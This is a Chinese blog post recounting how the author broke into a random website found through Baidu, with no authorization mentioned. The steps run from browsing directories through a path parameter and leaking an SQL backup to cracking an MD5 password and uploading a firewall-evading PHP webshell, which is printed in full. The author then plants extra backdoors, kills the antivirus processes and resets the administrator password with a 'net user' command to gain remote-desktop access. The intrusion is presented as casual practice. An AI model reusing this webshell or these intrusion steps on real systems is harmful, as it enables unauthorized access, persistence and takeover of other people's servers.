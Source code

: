 ```yaml
---
title: 第一次远程桌面的日站过程
url: 238.html
id: 238
categories:
  - 渗透测试
date: 2018-02-21 23:15:51
tags:
---
```


### 前言

既然都说日站孰能生巧，日多了才能出感觉，今天就在找一些网站进行测试。 
然后无意间百度出了一个功能很奇怪的网页，居然能查看目录。 
然后折腾了一天，终于能远程登录了。就记录一下，算是一次实战经验。  

### 正文

一开始看到的网页是这个样子的 ![](http://blog.kingkk.com/wp-content/uploads/2018/02/14af5bb0132db9807b857696125cbd10.png) 
一看这url，path参数不就是路径名么。而且好像还可以查看非网站目录，应该是phpstudy的原因，导致权限较高。 
虽然能看目录，但是看不了里面的内容，那就翻翻有没有什么备份文件之类的，然后找呀找 找到了个.sql文件。 
然后通过浏览器访问一下，导出来，加到自己数据库看看有什么数据 然后随便找了个用户，密码用md5解密一下，123456 
![](http://blog.kingkk.com/wp-content/uploads/2018/02/cae3ff8dc21f98a3793cc7c41400d227.png)  
进主页登录一下看看有什么数据 
危害最大的应该就是上传漏洞了，于是就先测试了下上传功能。 随便上传了个class.php竟然直接成功了，而且发现连文件名都不改，直接传上去了 
既然这样，那就直接上一句话啊，还等什么 
可是上了当真的上一句话的时候，好像有防火墙，把文件内容都给改了，还会把名称变成.log 
![](http://blog.kingkk.com/wp-content/uploads/2018/02/967352f6ffd24be8f64b8cbde421965c.png) 
然后没办法，试试改下文件名php3,php5可是phpstudy好像不解析，还因为上传恶意代码被各种banip，自己的ip全挂了，还去网上找了公用的Ip代理 
最后，从土司上找的一句话成功过防火墙，上传成功 **assert.php**
```php
<?php
${"function"}=substr(\_\_FILE\_\_,-10,-4);;
${"command"}=$_POST\[cmd\];
$function($command);
?>
```
后来发现有个局限，就是文件名上传之后不能被更改，因为是取了文件名作为函数关键字，不过恰巧这里不改文件名 
然后成功上了菜刀 上了菜刀后，习惯性多加几个后门，以防这里被删 
后来想上传个大马，发现还是会被防火墙拦截，还有被ban了，难受 
后来进菜刀自带的命令行，由于是phpstudy的原因，权限还蛮高，把那几个杀软全给kill了 
接下来就是netstat看看端口 
![](http://blog.kingkk.com/wp-content/uploads/2018/02/6fde6e4d568c64ba560c7a88ab55b0ef.png) 
没有3389，但是10086这种奇葩的端口，应该就是远程桌面的 弱口令没成功，然后想着添加用户，返回执行成功，可是一直添加不上去，最后直接修改了管理员密码
```
net user administrator kingkk
```
成功连上 ![](http://blog.kingkk.com/wp-content/uploads/2018/02/3bbe9cba0bbfa77aec494ff519a1ce76.png) 
至于内网漫游的话，其实并不怎么懂内网渗透，而且查了下ip是阿里云的，于是也就没往下走了，至少这台机子已经拿下了，后来翻了翻并没有什么有价值的东西，扫兴  

### 总结

虽然写起来轻松，实际测试的时候真的弄了好久，可能也是底子不怎么好。被banip真的很难受。 
而且真的觉得运气好，是网站管理员自己放的几个高危页面进去的（后来发现一开始的同页面下还有直接执行命令行的页面），上传什么都完全没做过滤。 
算是难得的一次拿下远程桌面的渗透测试。